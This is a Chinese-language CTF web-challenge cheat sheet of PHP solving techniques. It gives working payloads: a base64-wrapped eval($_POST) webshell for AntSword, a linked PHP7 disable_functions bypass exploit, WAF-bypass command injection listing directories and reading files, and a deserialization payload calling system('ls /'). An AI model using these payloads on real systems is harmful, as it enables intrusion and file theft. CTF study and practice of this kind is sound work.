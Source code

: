 [CTF web 题型总结-第七课 CTF WEB 实战练习(三)](https://mp.weixin.qq.com/s/y9sbf1VV-JCtSQGYxTHdxw)

[SQL 注入基础整理及 Tricks 总结](https://www.anquanke.com/post/id/205376) [Link2](https://mp.weixin.qq.com/s/vdUoQU2WS7zf0EKHFYKNvg)

[闲谈 Webshell 实战应用](https://mp.weixin.qq.com/s/xKB64su2gJJ51ZKEF0PSKg)

[Getshell | 文件上传绕过整理](https://mp.weixin.qq.com/s/DpZyReQenYwg-5F_tx2u8A)

## php 解题思路

1. 构建 shell，看 phpinfo

```php
    @$this->x()['Ginkgo'];
    $this->decode = @base64_decode( $this->code );
```

比如这样的构建 `eval($_POST['a']);` 转 base64 => ?Ginkgo=ZXZhbCgkX1BPU1RbJ2EnXSk7 ,用蚁剑连这个地址。

构建 `a=phpinfo();` ，用 hackbar post 出去 `a=phpinfo();` 注意分号。

2. 绕过读取文件

[exp.php](https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass/exploit.php)

修改一行 `pwn("/readflag");`

## 过 waf 等过滤

添加空格绕过，如[Web-[RoarCTF 2019]Easy Calc](https://www.cnblogs.com/gaonuoqi/p/11890094.html),限制了 num，waf 并没有限制' num'，当 php 解析的时候，又会把' num'前面的空格去掉在解析，利用这点来上传非法字符

    ? num=1;var_dump(scandir(chr(47))) // scandir(/)
    ? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) # flagg

1. \指命名空间, 有的版本可用。Linux 下可以添加 \ 来过, 比如 \system = system, ca\t = cat

```
POST
http://d0ee41d4-e9af-43bb-99e7-e3adcf19757d.node3.buuoj.cn/index.php?func=\system&p=find / -name flag*
```

2. 先序列化 echo serialize(\$a), 然后提交反序列化的内容

```php
<?php
class Test {
    var $p = 'ls /';
    var $func = 'system';
}
$a = new Test;
echo serialize($a);
?>
// O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
// 比如func和p, 提交 func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```
